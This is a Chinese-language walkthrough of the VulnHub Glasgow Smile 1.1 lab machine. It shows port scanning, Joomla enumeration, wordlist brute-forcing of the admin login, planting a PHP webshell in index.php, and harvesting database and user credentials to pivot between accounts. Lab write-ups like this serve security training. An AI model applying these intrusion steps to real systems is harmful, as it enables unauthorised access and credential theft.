


# Glasglow 1.1

> https://download.vulnhub.com/glasgowsmile/GlasgowSmile-v1.1.zip

靶场IP：`192.168.32.222`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.222
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 10:00 EDT
Nmap scan report for 192.168.32.222
Host is up (0.00036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 00:0C:29:96:C2:2B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds

```

访问80端口


爆破目录

```

```

访问：`/joomla`


使用" **joomscan** "并列出版本、有趣的目录、备份文件或可以帮助我们识别某些漏洞的东西了。

```
┌──(root💀kali)-[~]
└─# joomscan  -u http://192.168.32.222/joomla/

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://192.168.32.222/joomla/ ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.3rc1

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://192.168.32.222/joomla/administrator/components
http://192.168.32.222/joomla/administrator/modules
http://192.168.32.222/joomla/administrator/templates
http://192.168.32.222/joomla/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://192.168.32.222/joomla/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://192.168.32.222/joomla/robots.txt 

Interesting path found from robots.txt
http://192.168.32.222/joomla/joomla/administrator/
http://192.168.32.222/joomla/administrator/
http://192.168.32.222/joomla/bin/
http://192.168.32.222/joomla/cache/                                                                                                                                                                                                          
http://192.168.32.222/joomla/cli/                                                                                                                                                                                                            
http://192.168.32.222/joomla/components/                                                                                                                                                                                                     
http://192.168.32.222/joomla/includes/                                                                                                                                                                                                       
http://192.168.32.222/joomla/installation/                                                                                                                                                                                                   
http://192.168.32.222/joomla/language/                                                                                                                                                                                                       
http://192.168.32.222/joomla/layouts/                                                                                                                                                                                                        
http://192.168.32.222/joomla/libraries/                                                                                                                                                                                                      
http://192.168.32.222/joomla/logs/                                                                                                                                                                                                           
http://192.168.32.222/joomla/modules/                                                                                                                                                                                                        
http://192.168.32.222/joomla/plugins/                                                                                                                                                                                                        
http://192.168.32.222/joomla/tmp/                                                                                                                                                                                                                                                                                                          
[+] Finding common backup files name                                                                                                                                                                                                         
[++] Backup files are not found                                                                                                                                                                                                                                                                                    
[+] Finding common log files name                                                                                                                                                                                                            
[++] error log is not found                                                                                                                                                                                                              
[+] Checking sensitive config.php.x file                                                                                                                                                                                                     
[++] Readable config files are not found                                                                                                                                                                                          
Your Report : reports/192.168.32.222/          
```

抓取密码单词

```
┌──(root💀kali)-[/tmp]
└─# cewl http://192.168.32.222/joomla/ > password   
```

使用bp暴力破解，找到密码：`Gotham`




我直接修改了文件" **index.php** "并将" **pentestmonkey** "的webshell的代码。



```
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@glasgowsmile:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

分析 Joomla 配置文件将揭示数据库连接细节：

```
www-data@glasgowsmile:/var/www/joomla2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'Joker';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'joomla';
        public $password = 'babyjoker';
        public $db = 'joomla_db';
        public $dbprefix = 'jnqcu_';
        public $live_site = '';
        public $secret = 'fNRyp6KO51013435';
        public $gzip = '0';
        public $error_reporting = 'default';
        public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
        public $ftp_host = '';
        public $ftp_port = '';
        public $ftp_user = '';
        public $ftp_pass = '';
        public $ftp_root = '';
        public $ftp_enable = '0';
        public $offset = 'UTC';
        public $mailonline = '1';
        public $mailer = 'mail';
        public $mailfrom = 'admin@joker';
        public $fromname = 'Joker';
        public $sendmail = '/usr/sbin/sendmail';
        public $smtpauth = '0';
        public $smtpuser = '';
        public $smtppass = '';
        public $smtphost = 'localhost';
        public $smtpsecure = 'none';
        public $smtpport = '25';
        public $caching = '0';
        public $cache_handler = 'file';
        public $cachetime = '15';
        public $cache_platformprefix = '0';
        public $MetaDesc = '';
        public $MetaKeys = '';
        public $MetaTitle = '1';
        public $MetaAuthor = '1';
        public $MetaVersion = '0';
        public $robots = '';
        public $sef = '1';
        public $sef_rewrite = '0';
        public $sef_suffix = '0';
        public $unicodeslugs = '0';
        public $feed_limit = '10';
        public $feed_email = 'none';
        public $log_path = '/var/www/html/joomla/administrator/logs';
        public $tmp_path = '/var/www/html/joomla/tmp';
        public $lifetime = '15';
        public $session_handler = 'database';
        public $shared_session = '0';

```

让我们使用凭据连接到数据库并列出我们可以访问的数据库：

```
www-data@glasgowsmile:/var/www/joomla2$ mysql -u joomla -p
mysql -u joomla -p
Enter password: babyjoker

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 228
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.002 sec)

```

有趣的是，用户不仅可以访问 Joomla 数据库，还可以`batjoke`：

```
MariaDB [(none)]> use batjoke;
use batjoke;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [batjoke]> show tables;
show tables;
+-------------------+
| Tables_in_batjoke |
+-------------------+
| equipment         |
| taskforce         |
+-------------------+
2 rows in set (0.000 sec)

MariaDB [batjoke]> select * from equipment;
select * from equipment;
Empty set (0.000 sec)

MariaDB [batjoke]> select * from taskforce;
select * from taskforce;
+----+---------+------------+---------+----------------------------------------------+
| id | type    | date       | name    | pswd                                         |
+----+---------+------------+---------+----------------------------------------------+
|  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
|  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
|  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
|  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
|  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
|  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
+----+---------+------------+---------+----------------------------------------------+
6 rows in set (0.000 sec)

```

该`taskforce`表包含具有 base64 编码密码的潜在用户列表。解码后，将生成以下列表：

|  name   |              password (base64)               |         password (clear)          |
| :-----: | :------------------------------------------: | :-------------------------------: |
|  Bane   |               YmFuZWlzaGVyZQ==               |            baneishere             |
|  Aaron  |               YWFyb25pc2hlcmU=               |            aaronishere            |
| Carnage |             Y2FybmFnZWlzaGVyZQ==             |           carnageishere           |
| buster  |             YnVzdGVyaXNoZXJlZmY=             |          busterishereff           |
|   rob   | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ | ???AllIHaveAreNegativeThoughts??? |
|  aunt   |         YXVudGlzIHRoZSBmdWNrIGhlcmU=         |       auntis the fuck here        |

切换到rob

```
www-data@glasgowsmile:/var/www/joomla2$ su rob
su rob
Password:       ???AllIHaveAreNegativeThoughts???

su: Authentication failure
www-data@glasgowsmile:/var/www/joomla2$ su rob
su rob
Password: ???AllIHaveAreNegativeThoughts???

rob@glasgowsmile:/var/www/joomla2$ id
id
uid=1000(rob) gid=1000(rob) groups=1000(rob),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

```

```
rob@glasgowsmile:~$ cat howtoberoot
cat howtoberoot
  _____ ______   __  _   _    _    ____  ____  _____ ____  
 |_   _|  _ \ \ / / | | | |  / \  |  _ \|  _ \| ____|  _ \ 
   | | | |_) \ V /  | |_| | / _ \ | |_) | | | |  _| | |_) |
   | | |  _ < | |   |  _  |/ ___ \|  _ <| |_| | |___|  _ < 
   |_| |_| \_\|_|   |_| |_/_/   \_\_| \_\____/|_____|_| \_\

NO HINTS.


rob@glasgowsmile:~$ cat Abnerineedyourhelp
cat Abnerineedyourhelp
Gdkkn Cdzq, Zqsgtq rteedqr eqnl rdudqd ldmszk hkkmdrr ats vd rdd khsskd rxlozsgx enq ghr bnmchshnm. Sghr qdkzsdr sn ghr eddkhmf zants adhmf hfmnqdc. Xnt bzm ehmc zm dmsqx hm ghr intqmzk qdzcr, "Sgd vnqrs ozqs ne gzuhmf z ldmszk hkkmdrr hr odnokd dwodbs xnt sn adgzud zr he xnt cnm's."
Mnv H mddc xntq gdko Zamdq, trd sghr ozrrvnqc, xnt vhkk ehmc sgd qhfgs vzx sn rnkud sgd dmhflz. RSLyzF9vYSj5aWjvYFUgcFfvLCAsXVskbyP0aV9xYSgiYV50byZvcFggaiAsdSArzVYkLZ==

```

base64解码：

```
┌──(root💀kali)-[/tmp]
└─# echo "STMzaG9wZTk5bXkwZGVhdGgwMDBtYWtlczQ0bW9yZThjZW50czAwdGhhbjBteTBsaWZlMA==" | base64 -d 
I33hope99my0death000makes44more8cents00than0my0life0
```

切换到`abner`

```
rob@glasgowsmile:~$ su abner 
su abner 
Password: I33hope99my0death000makes44more8cents00than0my0life0

abner@glasgowsmile:/home/rob$ id
id
uid=1001(abner) gid=1001(abner) groups=1001(abner)

```

